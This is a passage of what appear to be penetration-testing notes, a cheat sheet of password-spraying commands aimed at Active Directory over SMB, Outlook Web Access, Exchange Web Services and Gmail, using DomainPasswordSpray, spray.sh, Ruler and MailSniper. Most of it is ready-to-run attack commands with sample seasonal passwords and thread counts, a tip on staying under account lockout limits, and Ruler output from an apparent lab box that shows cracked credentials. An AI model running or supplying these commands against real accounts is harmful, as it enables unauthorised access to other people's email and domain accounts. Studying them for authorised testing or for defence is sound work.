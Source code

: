 Some manual Scripts to try (best not to try more than 5/7 per account)

[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) from dafthack

```ps
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```

[spray.sh](https://github.com/Greenwolf/Spray) from Greenwolf

```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```

##### Outlook Web Access

DomainPasswordSpray.ps1 can do this, as well as msf Owa_login and Owa_ews_login modules. The following two are also valid:

Ruler (haven't used by hacktricks says it is reliable)
```bash
$ ./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
    [x] Failed: larsson:Summer2020
    [x] Failed: cube0x0:Summer2020
    [x] Failed: a.admin:Summer2020
    [x] Failed: c.cube:Summer2020
    [+] Success: s.svensson:Summer2020
    [x] Failed: s.sven:Summer2020
    [x] Failed: j.jenny:Summer2020
    [x] Failed: t.teresa:Summer2020
    [x] Failed: t.trump:Summer2020
    [x] Failed: a.adams:Summer2020
    [x] Failed: l.larsson:Summer2020
    [x] Failed: CUBE0X0:Summer2020
    [x] Failed: A.ADMIN:Summer2020
    [x] Failed: C.CUBE:Summer2020
    [+] Success: S.SVENSSON:Summer2020
```

With [MailSniper.ps1](https://github.com/dafthack/MailSniper) also by dafthack
```ps
#Invoke-PasswordSprayOWA will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt

#Invoke-PasswordSprayEWS will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt

# GMAIL
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
